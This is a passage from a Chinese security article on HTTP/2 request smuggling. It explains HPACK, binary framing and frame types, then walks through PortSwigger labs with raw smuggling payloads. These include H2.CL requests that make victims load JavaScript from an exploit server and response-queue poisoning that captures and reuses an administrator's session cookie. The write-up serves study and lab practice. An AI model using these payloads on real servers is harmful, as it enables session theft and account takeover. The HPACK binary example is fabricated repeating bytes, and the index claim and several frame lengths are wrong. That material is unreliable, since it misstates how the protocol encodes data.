# HTTP2 请求走私利用剖析

[↓↓↓](javascript:)  
  
  
  
[↑↑↑](javascript:)

2024 年 01 月 12 日  
[经验心得](https://paper.seebug.org/category/experience/) · [Web 安全](https://paper.seebug.org/category/web-security/)

## 目录

-   [协议介绍](#_1)
-   [协议特性](#_2)
    -   [头部压缩](#_3)
    -   [二进制传输](#_4)
    -   [多路复用技术](#_5)
-   [帧格式类](#_6)
-   [消息长度](#_7)
-   [协议降级](#_8)
-   [请求走私](#_9)
    -   [H2.CL vulnerabilities](#h2cl-vulnerabilities)
    -   [H2.TE vulnerabilities](#h2te-vulnerabilities)
-   [队列中毒](#_10)
    -   [基本介绍](#_11)
    -   [利用要求](#_12)
    -   [中毒原理](#_13)
    -   [靶场演示](#_14)
-   [CRLF 走私](#crlf)
    -   [基本介绍](#_15)
    -   [走私原理](#_16)
    -   [靶场示例](#_17)
-   [请求拆分](#_18)
    -   [基本介绍](#_19)
    -   [重写请求](#_20)
    -   [靶场示例](#_21)
-   [请求隧道](#_22)
    -   [基本介绍](#_23)
    -   [头部泄露](#_24)
    -   [靶场示例](#_25)
-   [缓存投毒](#_26)
    -   [基本介绍](#_27)
    -   [靶场示例](#_28)
-   [防御措施](#_29)
-   [参考链接](#_30)

**作者：Al1ex@七芒星实验室  
本文为作者投稿，Seebug Paper 期待你的分享，凡经采用即有礼品相送！投稿邮箱：paper@seebug.org**

## 协议介绍

HTTP/2是HTTP协议自1999年HTTP 1.1 发布后的首个更新，它由互联网工程任务组 (IETF) 的 Hypertext Transfer Protocol Bis(httpbis) 工作小组进行开发，该组织于 2014 年 12 月将 HTTP/2 标准提议递交至 IESG 进行讨论并于 2015 年 2 月 17 日被批准，目前多数主流浏览器已经在 2015 年底支持了该协议，此外根据 W3Techs 的统计数据表示自 2017 年 5 月，在排名前一千万的网站中有 13.7% 支持了 HTTP/2，本篇文章我们将主要对 HTTP/2 协议的新特性以及 HTTP/2 中的请求走私进行详细介绍。

## 协议特性

### 头部压缩

HTTP/1中通过使用头字段Content-Encoding来指定Body的编码方式，比如:使用gzip压缩来节约带宽，但报文的另一个组成部分——Header却被无视了，没有针对它的优化手段，由于报文Header一般会携带User Agent、Cookie、Accept 等许多固定的头字段，有时候可能会多达几百字节甚至上千字节，Body 有时候却仅仅只有几十字节，更重要的一个点是在成千上万的请求响应报文里有很多字段值都是重复的，对于带宽而言是非常浪费的，于是 HTTP/2 把头部压缩作为性能改进的一个重点。

在 HTTP/2 使用了一种称为 HPACK 的头部压缩算法，通过编码和解码首部字段实现了有效的压缩和解压缩机制，其基本原理是客户端和服务器在首次建立连接时通过交换首部字段表 (Header Table) 来建立共享的静态和动态表，静态表包含了一组预定义的静态首部字段，而动态表则用于存储动态变化的首部字段，HPACK 压缩算法使用了两种编码方式：静态编码 (Static Encoding) 和动态编码 (Dynamic Encoding)，静态编码通过在静态表中查找匹配的静态首部字段并使用预定义的索引号进行编码，例如："content-length:100" 可以用索引号 6 进行编码而不需要传输完整的字符串，动态编码则是将首部字段添加到动态表中并根据新的上下文来更新表的内容，动态编码通过使用索引号、字面量编码和哈夫曼编码来进行首部字段的编码。

下面是一个示例，说明 HPACK 压缩算法如何对首部字段进行编码，原始的字段如下：

```c
Host: example.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/96.0.4664.93 Safari/537.36
```

HPACK 压缩算法编码后的二进制表示：

```c
11000000
01001010
11111111
10000011
10000001
11111111
10000001
11111111
10000001
11111000
11011111
11010000
01110100
00101111
00000000
00000100
00111111
10100001
01000011
11000001
00001011
11000100
00001011
11000101
11000001
00001011
11000001
00001011
11000001
00001011
11000001
00001011
11000001
00001011
11000001
00001011
11000001
00001011
11000001
00001011
11000001
00001011
11000001
00001011
11000001
00001011
11000001
00001011
11000001
00001011
11000001
00001011
11000001
00001011
11000001
00001011
11000001
00001011
11000001
00001011
11000001
00001011
11000001
00001011
11000001
00001011
11000001
00001011
11000001
00001011
11000001
00001011
11000001
00001011
11000001
00001011
11000001
00001011
11000001
00001011
11000001
00001011
11000001
00001011
11000001
00001011
11000001
00001011
11000001
00001011
11000001
00001011
11000001
00001011
11000001
00001011
11000001
00001011
11000001
00001011
11000001
00001011
11000001
00001011
11000001
00001011
11000001
00001011
11000001
00001011
11000001
00001011
11000001
00001011
11000001
00001011
11000001
00001011
11000001
00001011
11000001
00001011
11000001
00001011
11000001
00001011
11000001
00001011
11000001
00001011
11000001
00001011
11000001
00001011
11000001
00001011
11000001
00001011
11000001
00001011
11000001
```

在上面的示例展示了原始的两个首部字段，其中包括"Host"和"User-Agent"，通过 HPACK 压缩算法编码后的二进制表示占用了更少的空间并且可以在 HTTP/2 中进行传输，上述示例中的二进制表示是为了说明 HPACK 压缩算法的工作原理，实际传输时会使用更高级的编码形式，例如：哈夫曼编码，HTTP/2 的头部压缩可以显著减少传输的开销并提高网络性能和效率，通过减小首部字段的大小可以节省带宽和减少延迟，从而提供更快的网页加载速度和更好的用户体验。

### 二进制传输

HTTP/2所有性能增强的核心是新的二进制成帧层，它规定了HTTP消息如何在客户机和服务器之间封装和传输，从下图可以看出HTTP1.1是明文文本，而HTTP2.0首部(HEADERS)和数据消息主体(DATA)都是帧(frame)，frame是HTTP2协议中最小数据传输单元。



新的二进制成帧机制的引入改变了客户端和服务器之间的数据交换方式，为了描述这个过程，让我们熟悉一下 HTTP/2 术语：

-   Stream(流)：已建立的连接中的双向字节流，可以携带一条或多条消息
-   Message(消息)：映射到逻辑请求或响应消息的完整帧序列
-   Frame(帧)：帧是 HTTP/2 中最小的通信单元，每个单元包含一个帧头，它至少标识该帧所属的流，所有通信都是通过一个 TCP 连接进行的，该连接可以承载任意数量的双向流，而每个流都有一个唯一的标识符和可选的优先级信息，用于承载双向消息，每个消息都是一个逻辑 HTTP 消息，例如：请求或响应，由一个或多个帧组成，帧是携带特定类型数据 (例如:HTTP 报头、消息负载等) 的最小通信单元，来自不同流的帧可以被交织，然后经由每个帧的报头中嵌入的流标识符被重组



简而言之，HTTP/2 将 HTTP 协议通信分解为二进制编码帧的交换，然后将这些帧映射到属于特定流的消息，所有这些帧都在单个 TCP 连接中多路复用，这是实现 HTTP/2 协议提供的所有其他特性和性能优化的基础。

### 多路复用技术

在 HTTP/1.x 中如果客户端要进行多个并行请求来提高性能，那么必须使用多个 TCP 连接，这种行为是 HTTP/1.x 传递模型的直接结果，它确保每个连接一次只能传递一个响应 (响应队列)，而且这还会导致行首阻塞和底层 TCP 连接的低效使用，HTTP/2 中新的二进制成帧层消除了这些限制，通过允许客户机和服务器将一个 HTTP 消息分解成独立的帧并交错它们，然后在另一端重新组合它们实现了完全的请求和响应多路复用。


上图中的快照捕获了同一个连接中正在传输的多个流，客户端正在向服务器传输一个数据帧 (stream 5)，而服务器正在向客户端传输 stream 1 和 stream 3 的交错帧序列，而呈现的结果则是有三股平行流在飞行，通过将 HTTP 消息分解成独立的帧交织它们，然后在另一端重新组合它们的能力是 HTTP/2 最重要的增强，事实上它在所有 Web 技术的整个堆栈中引入了众多性能优势的连锁反应，使我们能够：

-   并行交错多个请求，不阻塞任何一个请求
-   并行交错多个响应，不阻塞任何一个响应
-   使用单个连接并行传递多个请求和响应
-   删除不必要的 HTTP/1.x 解决方法，例如：连接文件、图像精灵和域分片
-   消除不必要的延迟和提高可用网络容量的利用率，缩短页面加载时间

## 帧格式类

HTTP/2帧通用格式如下，其中帧头为固定的9个字节(24+8+8+1+31)/8=9呈现，变化的为帧的负载(payload)，负载内容是由帧类型(Type)定义：

```c
+-----------------------------------------------+
|                Length (24)                    |
+---------------+---------------+---------------+
|  Type (8)     |  Flags (8)    |
+-+-------------+---------------+-------------------------------+
|R|                Stream Identifier (31)                       |
+=+=============================================================+
|                  Frame Payload (0...)                         |    
+---------------------------------------------------------------+
```

字段解释如下：

-   Length：帧长度，无符号的自然数，仅表示帧负载所占用字节数，不包括帧头所占用的 9 个字节，默认大小区间为为 0~16,384(2^14)，超过默认最大值 2^14(16384)，发送方将不再允许发送，除非接收到接收方定义的 SETTINGS\_MAX\_FRAME\_SIZE(一般此值区间为 2^14 ~ 2^24) 值的通知
-   Type：帧类型，定义了帧负载的具体格式和帧的语义，HTTP/2 规范定义了 10 个帧类型
-   Flags：帧的标志位，8 个比特表示，服务于具体帧类型，默认值为 0x0
-   R：帧保留比特位，在 HTTP/2 语境下为保留的比特位，固定值为 0X0
-   Stream Identifier：流标识符，无符号的 31 比特表示无符号自然数，0x0 值表示为帧仅作用于连接，不隶属于单独的流

下面我们对 HTTP/2 的十种帧类型做一个简单的介绍：

(1) 数据帧 (DATA Frame)

HTTP/2的数据帧(DATA Frame) 用于传输 HTTP 请求或响应的实际数据，它是 HTTP/2 协议中最常用的帧类型之一，下面的示例中我们展示了一个 HTTP/2 的数据帧，它的长度字段为 10，表示数据帧的有效载荷长度为 10 字节，类型字段为 0，表示这是一个数据帧，标志位字段为 0，无特殊标志，流标识符为 1，表示该数据帧属于 ID 为 1 的流，数据负载为"Hello, HTTP/2!"，即实际的请求或响应数据。

```c
+-----------------------------------------------+
|                 Length (24) = 10                |
+---------------+---------------+---------------+
|   Type (8) = 0 |   Flags (8) = 0|
+-+-------------+---------------+-------------------------------+
|R|     Stream Identifier (31) = 1                           |
+-+-------------------------------------------------------------+
|         Data Payload = "Hello, HTTP/2!"              |
+---------------------------------------------------------------+
```

(2) 头部帧 (HEADE Frame)

HTTP/2的头部帧(HEADERS Frame) 用于传输 HTTP 请求或响应的头部信息，它包含了请求方法、URL、状态码、请求头、响应头等关键信息，下面我们展示了一个 HTTP/2 的头部帧，它的长度字段为 24，表示头部帧的有效载荷长度为 24 字节，类型字段为 1，表示这是一个头部帧，标志位字段为 0，无特殊标志，流标识符为 1，表示该头部帧属于 ID 为 1 的流，头部信息为`GET /index.html`，即请求的方法为 GET，URL 为/index.html。

```c
+-----------------------------------------------+
|                 Length (24) = 24              |
+---------------+---------------+---------------+
|   Type (8) = 1 |   Flags (8) = 0|
+-+-------------+---------------+-------------------------------+
|R|     Stream Identifier (31) = 1                              |
+-+-------------------------------------------------------------+
|         Headers Block Fragment = "GET /index.html"            |
|         ...                                                   |
+---------------------------------------------------------------+
```

(3) 优先级帧 (PRIORITY Frame)

HTTP/2的优先级帧(PRIORITY Frame) 用于指定请求或响应的优先级顺序，它允许客户端或服务器对请求或响应进行优先级排序以便更有效地处理并分配资源，在下面的示例中我们展示了一个 HTTP/2 的优先级帧，它的长度字段为 5，表示优先级帧的有效载荷长度为 5 字节，类型字段为 2，表示这是一个优先级帧，标志位字段为 0，无特殊标志，流标识符为 1，表示该优先级帧属于 ID 为 1 的流，Exclusive 字段为 0，表示当前流的依赖关系为共享依赖，Stream Dependency 字段为 3，表示当前流依赖于 ID 为 3 的流，权重字段为 16，表示当前流的权重为 16

```c
+---------------------------------------------------------------+
|                 Length (24) = 5                               |
+---------------+----------------------+------------------------+
|   Type (8) = 2 |   Flags (8) = 0                              |
+-+-------------+---------------+-------------------------------+
|R|     Stream Identifier (31) = 1                              |
+-+-------------------------------------------------------------+
|  Exclusive (1) = 0 |   Stream Dependency (31) = 3             |
+-+-------------------------------------------------------------+
|  Weight (8) = 16                                              |
+-+-------------------------------------------------------------+
```

(4) 重置帧 (RST\_STREAM)

HTTP/2的重置帧(RST\_STREAM Frame) 用于向对方发送信号，即终止或重置指定的流，它用于在发生错误或不再需要继续处理某个流时主动关闭或取消该流，下面是 HTTP/2 重置帧的详细格式和示例，它的长度字段为 4，表示重置帧的有效载荷长度为 4 字节，类型字段为 3，表示这是一个重置帧，标志位字段为 0，无特殊标志，流标识符为 1，表示该重置帧属于 ID 为 1 的流，错误码字段为`PROTOCOL_ERROR`，表示出现了协议错误，需要终止或重置该流。

```c
+--------------------------------------------------------------+
|                 Length (24) = 4                              |
+---------------------+------------------+---------------------+
|   Type (8) = 3        |   Flags (8) = 0                      |
+-+-------------+---------------+------------------------------+
|R|     Stream Identifier (31) = 1                             |
+-+------------------------------------------------------------+
|      Error Code (32) = PROTOCOL_ERROR                        |
+--------------------------------------------------------------+
```

(5) 设置帧 (SETTINGS Frame)

HTTP/2的设置帧(SETTINGS Frame) 用于在客户端和服务器之间交换配置参数，这些参数可以影响 HTTP/2 协议的行为，例如：流的并发数限制、流的优先级设置、流的最大帧大小等，在下面的示例中我们展示了一个 HTTP/2 的设置帧，它的长度字段为 6，表示设置帧的有效载荷长度为 6 字节，类型字段为 4，表示这是一个设置帧，标志位字段为 0，无特殊标志，流标识符为 0，表示该设置帧不与特定的请求或响应相关联，标识符字段为`MAX_CONCURRENT_STREAMS`，表示设置最大并发流数的参数，值字段为 100，表示将最大并发流数设置为 100。

```c
+---------------------------------------------------------------+
|                 Length (24) = 6                               |
+-------------------+-------------------+-----------------------+
|           Type (8) = 4 |   Flags (8) = 0                      |
+-+-------------+---------------+-------------------------------+
|R|         Stream Identifier (31) = 0                          |
+-+-------------------------------------------------------------+
|      Identifier (16) = MAX_CONCURRENT_STREAMS                 |
+---------------------------------------------------------------+
|               Value (32) = 100                                |
+---------------------------------------------------------------+
```

(6) 推送帧 (PUSH\_PROMISE Frame)

HTTP/2中的`PUSH_PROMISE`帧用于服务器向客户端发起推送，即在客户端请求之前服务器可以预先推送相关资源给客户端，下面是 HTTP/2 的 PUSH\_PROMISE 示例，此 HTTP/2 的 PUSH\_PROMISE 帧的长度字段为 12，表示帧的有效载荷长度为 12 字节，类型字段为 0x5，表示这是一个 PUSH\_PROMISE 帧，标志位字段为 0，无特殊标志。流标识符为 1，表示发起 PUSH\_PROMISE 帧的流的标识符，推送的资源关联的流的标识符为 2，Header Block Fragment 字段表示压缩后的头部块数据，其中包含了将要推送的资源的相关信息。

```c
+------------------------------------------------------------------+
|                 Length (24) = 12                                 |
+------------------+---------------------+-------------------------+
|   Type (8) = 0x5              |   Flags (8) = 0                  |
+-+-------------+---------------+----------------------------------+
|R|    Stream Identifier (31) = 1                                  |
+-+----------------------------------------------------------------+
|    Promised Stream ID (31) = 2                                   |
+-+----------------------------------------------------------------+
|   Header Block Fragment (*) = Compressed header data             |
+------------------------------------------------------------------+
```

(7) 窗口调整帧 (WINDOW\_UPDATE)

HTTP/2中的WINDOW\_UPDATE帧用于通知对端调整流或连接的窗口大小以控制流量控制和流的处理速率，下面是HTTP/2的WINDOW\_UPDATE帧示例，它的长度字段为4，表示帧的有效载荷长度为4字节，类型字段为0x8，表示这是一个WINDOW\_UPDATE帧，标志位字段为0，无特殊标志，流标识符为1，表示受影响的流的标识符，窗口大小增量字段为1024，表示窗口大小增加1024个字节。

```c
+---------------------------------------------------------------+
|                 Length (24) = 4                               |
+------------------+------------------+-------------------------+
|   Type (8) = 0x8          |   Flags (8) = 0                   |
+------------+-------------+---------------+--------------------+
|R|    Stream Identifier (31) = 1                               |
+-+-------------------------------------------------------------+
|        Window Size Increment (31) = 1024                      |
+---------------------------------------------------------------+
```

(8) GOAWAY 帧

HTTP/2中的GOAWAY帧用于在关闭连接之前通知对端不再接受新的流并提供关于连接关闭原因的信息，下面是HTTP/2的GOAWAY帧示例，它的长度字段为8，表示帧有效载荷长度为8字节，类型字段为0x7，表示这是一个GOAWAY帧，标志位字段为0，无特殊标志，流标识符为0，表示GOAWAY帧的流的标识符，最后一个流的标识符为3，表示服务器不再接受比流标识符为3更大的流，错误码字段为0x2，表示GOAWAY帧的错误码，具体的错误码可以表示不同的连接关闭原因。

```c
+---------------------------------------------------------------+
|                 Length (24) = 8                               |
+--------------------+----------------------+-------------------+
|   Type (8) = 0x7 |   Flags (8) = 0                            |
+-+-------------+---------------+-------------------------------+
|R|    Stream Identifier (31) = 0                               |
+-+-------------------------------------------------------------+
|    Last-Stream Identifier (31) = 3                            |
+-+-------------------------------------------------------------+
|                   Error Code (32) = 0x2                       |
+---------------------------------------------------------------+
```

(9) PING 帧

HTTP/2中的PING帧用于在发送端和接收端之间进行双向的心跳检测以确认连接的活跃性和延迟，下面是HTTP/2的PING帧的示例，它的长度字段为8，表示帧的有效载荷长度为8字节，类型字段为0x6，表示这是一个PING帧，标志位字段为0，无特殊标志，流标识符为0，表示PING帧的流的标识符必须为0，透明数据字段为`0x1122334455667788`，表示 PING 帧的数据。

```c
+---------------------------------------------------------------+
|                 Length (24) = 8                               |
+---------------------+--------------------+--------------------+
|   Type (8) = 0x6          |   Flags (8) = 0                   |
+-+-------------+---------------+-------------------------------+
|R|    Stream Identifier (31) = 0                               |
+-+-------------------------------------------------------------+
|          Opaque Data (64) = 0x1122334455667788                |
+---------------------------------------------------------------+
```

(10) CONTINUATION

HTTP/2中的CONTINUATION帧用于将首部块(Header Block) 拆分为多个帧进行传输，由于 HTTP/2 的首部压缩机制，首部块可能非常大，无法通过单个帧传输，CONTINUATION 帧用于将首部块的后续部分发送到接收端，下面是 HTTP/2 的 CONTINUATION 帧的详细格式和示例，长度字段为 10，表示帧的有效载荷长度为 10 字节，类型字段为 0x9，表示这是一个 CONTINUATION 帧，标志位字段为 0，无特殊标志，流标识符为 1，表示 CONTINUATION 帧的流的标识符，Header Block Fragment 字段表示首部块的片段。

```c
+---------------------------------------------------------------+
|                     Length (24) = 10                          |
+--------------------+------------------+-----------------------+
|            Type (8) = 0x9 |   Flags (8) = 0                   |
+-+-------------+---------------+-------------------------------+
|R|              Stream Identifier (31) = 1                     |
+-+-------------------------------------------------------------+
|                 Header Block Fragment (*)                     |
+---------------------------------------------------------------+
```

## 消息长度

在 HTTP /1.1 中的请求走私的利用都是基于 Content-Length 和 Transfer-Encoding 前后端解析的差异性和混淆产生的，而 HTTP2 是基于预定义的偏移量进行解析，消息长度几乎不可能产生歧义，这种机制被认为是固有的，可以避免请求走私，虽然在 Burp 中看不到这一点，但 HTTP/2 消息是作为一系列独立的"帧"通过网络发送的，每个帧前面都有一个显式长度字段，它告诉服务器要读入多少字节，因此请求的长度是其帧长度的总和，理论上只要网站端到端地使用 HTTP/2，那么攻击者便没有机会引入请求走私所需的模糊性，然而由于 HTTP/2 降级的普遍但危险的实践，情况往往不是这样。

## 协议降级

HTTP/2降级是使用HTTP/1语法重写HTTP/2请求以生成等效的HTTP/1请求的过程，Web服务器和反向代理经常这样做以便在与只使用HTTP/1的后端服务器通信时向客户端提供HTTP/2支持，这种做法是本文讨论的许多攻击的先决条件。


在使用 HTTP/1 的后端发出响应时，前端服务器会反转这个过程来生成 HTTP/2 响应并将其返回给客户端，因为协议的每个版本从根本上来说只是表示相同信息的不同方式，HTTP/1 消息中的每一项在 HTTP/2 中都有大致相同的内容，因此对于服务器来说在两种协议之间转换这些请求和响应相对简单，事实上这就是 Burp 能够使用 HTTP/1 语法在消息编辑器中显示 HTTP/2 消息的方式，HTTP/2 降级非常普遍甚至是许多流行的反向代理服务的默认行为，在某些情况下甚至没有禁用它的选项。



## 请求走私

### H2.CL vulnerabilities

HTTP/2请求不必在请求报文头中明确指定它们的长度，在降级期间前端服务器通常会添加一个HTTP/1的Content-Length头，使用HTTP/2的内置长度机制来获取其值，有趣的是HTTP/2请求也可以包含自己的Content-Length，在这种情况下一些前端服务器会在结果HTTP/1请求中重用这个值，而此规范也规定了HTTP/2请求中的任何content-length头必须与使用内置机制计算的长度相匹配，但是在降级之前并不总是正确验证这一点，因此有可能通过插入误导性的Content-Length来走私请求，虽然前端将使用隐式的HTTP/2长度来确定请求的结束位置，但是HTTP/1后端必须引用从您注入的头中派生的Content-Length头，从而进行走私请求。

如果我们以 HTTP/2 的格式发送如下请求：

```c
:method POST
:path   /example
:authority  vulnerable-website.com
content-type    application/x-www-form-urlencoded
content-length  0
GET /admin HTTP/1.1
Host: vulnerable-website.com
Content-Length: 10
x=1
```

那么此时后端请求数据报文将如下：

```c
POST /example HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 0
GET /admin HTTP/1.1
Host: vulnerable-website.com
Content-Length: 10
x=1GET / H
```

下面我们通过一个靶场进行演示介绍：

靶场地址：[https://portswigger.net/web-security/request-smuggling/advanced/lab-request-smuggling-h2-cl-request-smuggling](https://portswigger.net/web-security/request-smuggling/advanced/lab-request-smuggling-h2-cl-request-smuggling "https://portswigger.net/web-security/request-smuggling/advanced/lab-request-smuggling-h2-cl-request-smuggling")

靶场介绍：此靶场容易受到请求走私的攻击，因为前端服务器会降低 HTTP/2 请求的级别，即使它们的长度不明确，要解决实验室问题，你需要执行请求走私攻击使受害者的浏览器从漏洞利用服务器加载并执行恶意 JavaScript 文件，调用 alert(document.cookie)，受害者用户每 10 秒访问主页一次。

解题过程：

Step 1：访问上面的靶场链接地址，让后点击"ACCESS THELAB"进入靶场



Step 2：使用 Burp suite 抓包并尝试在 HTTP/2 请求的正文中添加`Content-Length:0` 头的方式尝试走私前缀信息，需要注意的是在发送请求之前要将协议设置为 HTTP/2

```c
POST / HTTP/2
Host: 0aed00cf039321e185db1c3f00a80002.web-security-academy.net
Content-Length: 0
SMUGGLED
```



此时第二个请求都会收到一个 404 响应，由此可以确定我们已经让后端将走私的前缀附加到后续的请求



备注：在构造请求时需要在 Burpsuite 中禁用 Update-CL，同时勾选 Allow HTTP/2 ALPN override 并且把协议改为 HTTP2



Step 3：在 Burp suite 中发送`GET /resources`请求，此时可以看到会被重定向到[https://0aed00cf039321e185db1c3f00a80002.web-security-academy.net/resources/](https://0aed00cf039321e185db1c3f00a80002.web-security-academy.net/resources/ "https://0aed00cf039321e185db1c3f00a80002.web-security-academy.net/resources/")



Step 4：随后尝试构造下面的请求来隐藏对任意的 host 的/resources 请求

```c
POST / HTTP/2
Host: 0aed00cf039321e185db1c3f00a80002.web-security-academy.net
Cookie: session=LPq3scqI6nFu4qD2LbowPurZhkiVCXtY
Content-Length: 0
GET /resources HTTP/1.1
Host: www.baidu.com
Content-Length: 6
x=1
```



Step 5：随后我们使用靶场提供的恶意服务器主机托管一个恶意 JS 文件



Step 6：随后修改之前的请求数据包去请求恶意服务器上的 resouces 文件

```c
POST / HTTP/2
Host: 0aed00cf039321e185db1c3f00a80002.web-security-academy.net
Cookie: session=LPq3scqI6nFu4qD2LbowPurZhkiVCXtY
Content-Length: 0
GET /resources HTTP/1.1
Host: exploit-0ac2009903692136853e1b6701c3001b.exploit-server.net
Content-Length: 6
x=1
```



随后我们可以在恶意服务器端的日志中看到有来自目标靶机的请求记录：



Step 7：随后完成解题



### H2.TE vulnerabilities

HTTP/2与Chunked transfer encoding 不兼容，规范是建议在尝试插入的任何"transfer-encoding: chunked"头都应该被剥离或完全阻塞请求，如果前端服务器未能做到这一点并且随后降级了对支持分块编码的 HTTP/1 后端的请求，也将会导致请求走私攻击。

如果我们以 HTTP/2 的格式发送如下请求：

```c
:method POST
:path   /example
:authority  vulnerable-website.com
content-type    application/x-www-form-urlencoded
transfer-encoding   chunked
0
GET /admin HTTP/1.1
Host: vulnerable-website.com
Foo: bar
```

那么此时后端请求数据报文将如下：

```c
POST /example HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Transfer-Encoding: chunked
0
GET /admin HTTP/1.1
Host: vulnerable-website.com
Foo: bar
```

## 队列中毒

### 基本介绍

响应队列中毒是一种请求走私攻击形式，它会导致前端服务器开始将来自后端的响应映射到错误的请求，实际上这意味着同一个前端/后端连接的所有用户都被持续地提供给其他人的响应，这一般是通过走私一个完整的请求来实现的，因此当前端服务器只期望一个响应时，从后端却得到两个响应，而队列一旦中毒，那么攻击者只需发出任意后续请求就可以捕获其他用户的响应，这些响应可能包含敏感的个人或业务数据，以及会话令牌等，从而导致 i 信息泄露或者间接性的使攻击者获取受害者账户的访问权限。

### 利用要求

如果要想构造一个成功的响应队列中毒攻击，则必须满足以下要求：

-   前端服务器和后端服务器之间的 TCP 连接在多个请求/响应周期中重用
-   攻击者能够成功地发送一个完整的、独立的请求，该请求从后端服务器接收自己独特的响应
-   攻击不会导致任何一台服务器关闭 TCP 连接，服务器通常会在收到无效请求时关闭传入的连接，因为它们无法确定请求应该在哪里结束

### 中毒原理

请求走私攻击通常涉及走私部分请求，服务器将其作为前缀添加到连接中下一个请求的开始，需要注意的是被发送的请求的内容会影响最初攻击后的连接，如果您只是偷偷发送一个带有一些头的请求行，假设不久之后在连接上发送了另一个请求，那么后端最终仍然会看到两个完整的请求。


如果您发送了一个包含主体的请求，连接上的下一个请求将被附加到被发送的请求的主体，这通常会产生副作用，即根据明显的 Content-Length 截断最终请求，此时后端实际上看到了三个请求，其中第三个"请求"只是一系列剩余的字节。

前端 (CL 模式)：

```c
POST / HTTP/1.1
Host: vulnerable-website.com
Content-Type: x-www-form-urlencoded
Content-Length: 120
Transfer-Encoding: chunked
0
POST /example HTTP/1.1
Host: vulnerable-website.com
Content-Type: x-www-form-urlencoded
Content-Length: 25
x=GET / HTTP/1.1
Host: vulnerable-website.com
```

后端 (TE 模式)：

```c
POST / HTTP/1.1
Host: vulnerable-website.com
Content-Type: x-www-form-urlencoded
Content-Length: 120
Transfer-Encoding: chunked
0
POST /example HTTP/1.1
Host: vulnerable-website.com
Content-Type: x-www-form-urlencoded
Content-Length: 25
x=GET / HTTP/1.1
Host: vulnerable-website.com
```

如果我们简单的构造一下，通过一次发送两个请求，那么连接上的任何后续请求都将保持不变：

前端 (CL 模式)：

```c
POST / HTTP/1.1\r\n
Host: vulnerable-website.com\r\n
Content-Type: x-www-form-urlencoded\r\n
Content-Length: 61\r\n
Transfer-Encoding: chunked\r\n
\r\n
0\r\n
\r\n
GET /anything HTTP/1.1\r\n
Host: vulnerable-website.com\r\n
\r\n
GET / HTTP/1.1\r\n
Host: vulnerable-website.com\r\n
\r\n
```

后端 (TE 模式)：

```c
POST / HTTP/1.1\r\n
Host: vulnerable-website.com\r\n
Content-Type: x-www-form-urlencoded\r\n
Content-Length: 61\r\n
Transfer-Encoding: chunked\r\n
\r\n
0\r\n
\r\n
GET /anything HTTP/1.1\r\n
Host: vulnerable-website.com\r\n
\r\n
GET / HTTP/1.1\r\n
Host: vulnerable-website.com\r\n
```

当你偷运一个完整的请求时，前端服务器仍然认为它只转发了一个请求，而后端看到两个不同的请求并将相应地发送两个响应，前端将第一个响应正确地映射到初始的"包装器"请求并将其转发给客户端，因为没有其他请求等待响应，所以意外的第二个响应被保存在前端和后端之间的连接队列中，当前端接收到另一个请求时，它会像往常一样将其转发给后端，但是当发出响应时，它将发送队列中的第一个，即走私请求的剩余响应，由于来自后端的正确响应没有匹配的请求，每当一个新的请求通过相同的连接被转发到后端时，这个循环就会重复一次。



响应队列中毒后攻击者就可以发送任意请求来捕获另一个用户的响应，当时此时的攻击者并不能控制接收到哪些响应，因为他们总是会收到队列中的下一个响应，即前一个用户请求的响应，在某些情况下这将十分鸡肋，然而攻击者可以通过使用 Burp Intruder 很容易地自动重新发出请求并快速获取针对不同用户的各种回复，其中至少有一些可能包含有用的数据，而只要前端/后端连接保持打开，那么攻击者就可以像这样持续性的窃取响应，连接关闭的确切时间因服务器而异，但一个常见的默认情况是在处理了 100 个请求后终止连接，一旦当前连接关闭，重新建立一个新连接也很简单。



### 靶场演示

靶场地址：[https://portswigger.net/web-security/request-smuggling/advanced/response-queue-poisoning/lab-request-smuggling-h2-response-queue-poisoning-via-te-request-smuggling](https://portswigger.net/web-security/request-smuggling/advanced/response-queue-poisoning/lab-request-smuggling-h2-response-queue-poisoning-via-te-request-smuggling "https://portswigger.net/web-security/request-smuggling/advanced/response-queue-poisoning/lab-request-smuggling-h2-response-queue-poisoning-via-te-request-smuggling")

靶场介绍：本靶场容易受到请求走私的攻击，因为前端服务器会降级 HTTP/2 请求，即使它们的长度不明确，为了解决这个实验，你需要通过使用响应队列中毒进入位于/admin 的管理面板来删除用户 carlos，管理员用户大约每 15 秒登录一次，到后端的连接每 10 个请求就重置一次，所以如果进入此状态也不用担心——只需发送几个正常的请求就可以获得一个新的连接。

演示过程：

Step 1：访问以上链接点击`ACCESS THELAB`进入靶场



Step 2：在 BurpSuite 中构造走私请求，尝试使用分块编码在 HTTP/2 请求体中隐藏任意前缀

```c
POST / HTTP/2
Host: 0a7200bf0465414380e68aa700240081.web-security-academy.net
Transfer-Encoding: chunked
0
SMUGGLED
```



发送的第二个请求会收到一个 404 响应，由此可以确认我们已经让后端将后续请求附加到走私的前缀中去



Step 3：在 Burp Repeater 中构造以下请求将一个完整的请求走私到后端服务器，需要注意的是这两个请求中的路径都指向一个不存在的路径，这意味着请求将总是得到 404 响应，一旦我们成功毒化了响应队列，那么此时便更容易识别到成功捕获的其他用户的响应 (非 404 响应)

```c
POST / HTTP/2
Host: 0a7200bf0465414380e68aa700240081.web-security-academy.net
Transfer-Encoding: chunked
0
GET /x HTTP/1.1
Host: 0a7200bf0465414380e68aa700240081.web-security-academy.net
```



随后我们会捕获到包含管理员新的登录后会话 cookie 的 302 响应

```c
HTTP/2 302 Found
Location: /my-account?id=administrator
Set-Cookie: session=hTi7sNuudeR99YHcsm3l3xa3zKDAWqEB; Secure; HttpOnly; SameSite=None
X-Frame-Options: SAMEORIGIN
Content-Length: 0
```



Step 4：随后我们直接访问复制会话 cookie 并使用它发送以下请求

```c
GET /admin HTTP/2
Host: 0a7200bf0465414380e68aa700240081.web-security-academy.net
Cookie: session=hTi7sNuudeR99YHcsm3l3xa3zKDAWqEB
```



Step 5：从上面我们可以看到成功利用 admin 的会话进入到控制面板中去，随后我们继续使用获取到的会话进行用户的删除操作

```c
GET /admin/delete?username=carlos HTTP/2
Host: 0a7200bf0465414380e68aa700240081.web-security-academy.net
Cookie: session=hTi7sNuudeR99YHcsm3l3xa3zKDAWqEB
```



Step 6：随后完成解题：



## CRLF 走私

### 基本介绍

